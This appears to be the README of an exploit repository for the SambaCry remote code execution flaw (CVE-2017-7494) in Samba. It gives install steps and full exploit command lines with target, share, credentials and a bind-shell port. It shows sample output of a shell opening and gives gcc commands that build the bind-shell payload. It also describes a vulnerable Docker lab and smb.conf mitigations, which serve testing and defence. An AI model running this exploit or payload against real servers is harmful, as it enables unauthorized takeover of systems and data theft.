

# SambaCry RCE exploit for Samba 4.5.9

[](https://hub.docker.com/r/vulnerables/cve-2017-7494/)


Samba is a free software re-implementation of the SMB/CIFS networking protocol. Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller (DC) or as a domain member. As of version 4, it supports Active Directory and Microsoft Windows NT domains.

Samba in **4.5.9** version and before that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017-7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 does not restrict the file path when using Windows named pipes, which allows remote authenticated users to upload a shared library to a writable shared folder, and execute arbitrary code via a crafted named pipe.


### Exploit



If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you want to exploit the vulnerable environment with within this repository, run

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, just run

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494
```

If you want to access, use the following credentials.

* User: `sambacry`
* Password: `nosambanocry`


### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```

### Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4

### Mitigation

Add the parameter:

```
nt pipe support = no
```

to the `[global]` section of your smb.conf and restart smbd. This prevents clients from accessing any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using "noexec" option.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
